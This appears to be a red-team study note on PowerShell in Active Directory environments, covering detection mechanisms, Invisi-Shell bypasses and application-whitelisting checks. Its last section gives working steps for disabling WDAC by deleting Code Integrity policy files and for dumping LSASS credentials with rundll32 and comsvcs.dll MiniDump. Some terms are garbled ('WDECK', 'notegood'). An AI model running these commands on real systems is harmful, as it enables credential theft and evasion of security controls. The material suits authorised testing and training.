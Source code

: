 # Powershell
Powershell is a robust command-line shell and scripting language that comes bundled with modern Windows operating systems. It provides an extensive range of capabilities, granting users access to various components and features within the Windows platform. This includes the Active Directory Environment, which, unfortunately, can be leveraged by potential attackers to compromise system security. One of the standout advantages of Powershell is its ability to execute complex scripts directly from memory without the need for intermediate files. This feature makes it an ideal tool for establishing foothold shells or gaining unauthorized control over targeted systems. By being built on the .NET framework and closely integrated with Windows, Powershell enables seamless interaction with the operating system's resources and functionalities, enhancing its potential as a versatile and potent tool.

> PowerShell is **NOT** *powershell.exe*. It is the *System.Management.Automation.dll*


## Different ways to access PowerShell
1. *[ADSI]*
2. *.NET* Classes **System.DirectoryServices.ActiveDirectory**
3. Native Executable
4. WMI using PowerShell
5. ActiveDirectory Module


## PowerShell Detection Mechanism [ Blue Teaming ]
1. System-wide transcription
2. Script Block logging
3. AntiMalware Scan Interface (AMSI)
4. Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)
5. PinkCastle

---

# Bypassing PowerShell Security

## Using Invisi-Shell
1. With admin privileges
```powershell
RunWithPathAsAdmin.bat 
```
2. With non-admin privileges:
```powershell
RunWithRegistryNonAdmin.bat
```

> Type exit from the new PowerShell session to complete the clean-up.

---

# Bypassing Application Whitelisting 

#### 1. Methods for checking application whitelisting
1. Software Restriction Policies (SRP)
2. Applocker
3. Device Guard (WDECK)
4. Application Control in Azure

#### 2. Steps to check the Applocker policy
> Use the command
```powershell
PS> Get-ApplockerPolicy -Effective
```

#### 3. Check if Device Guard (WDECK) is enabled
> Use the command
```powershell
PS> Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

#### 4. Two approaches for blocking malicious programs
1. Blocking known malicious signatures
	+ Compare executable (*exe*) or dynamic-link library (*dll*) signatures with a database of well-known malicious signature hashes.
2. Allowing only trusted programs to run
	+ Instead of blocking malicious programs, allow only trusted Microsoft-signed binaries to execute (commonly referred to as "*notegood*").

#### 5. Bypassing WDECK
1.  **If WDECK is not implemented using Group Policy**
	1. Go to the directory
		```powershell
		C:\Windows\system32\CodeIntegrity
		```
	2. Delete the following files
		1. *DG.bin.p7*
		2. *SiPolicy.p7b*
	3. Reboot the machine.
2. **If you are in a VM and WDECK is enabled with GPOs**
	1. In this case, the **rundll32.exe** will likely be available for use.
	2. Options for dumping credentials
		1. Dumping the SAM and hive files
		2. Dumping the LSASS (Local Security Authority Subsystem Service)
		3. Steps for dumping LSASS
			```powershell
			# Run the following command
			tasklist /FI "IMAGENAME eq lsass.exe"

			# Execute the following command
			rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full

			# Copy the LSASS dump to another location
			echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp

			# Now Extract the credentials from the LSASS dump.
			```
